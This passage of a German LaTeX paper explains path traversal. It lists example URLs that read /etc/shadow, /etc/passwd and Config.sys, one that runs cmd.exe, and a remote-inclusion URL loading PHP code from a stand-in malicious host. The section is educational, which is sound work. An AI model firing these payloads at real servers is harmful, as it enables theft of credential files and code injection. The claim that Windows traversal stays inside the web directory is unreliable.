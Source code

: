 \subsection{Grundprinzip}
\label{sec:PT_GP}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, dass einem diese Schwäche erlaubt lokale Passwörter und Windows Configs auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Verzeichnis bewegen, in dem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem man sich noch mehr Möglichkeiten verschafft. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\subsection{Protection Path-Traversal}
\label{sec:PPT}
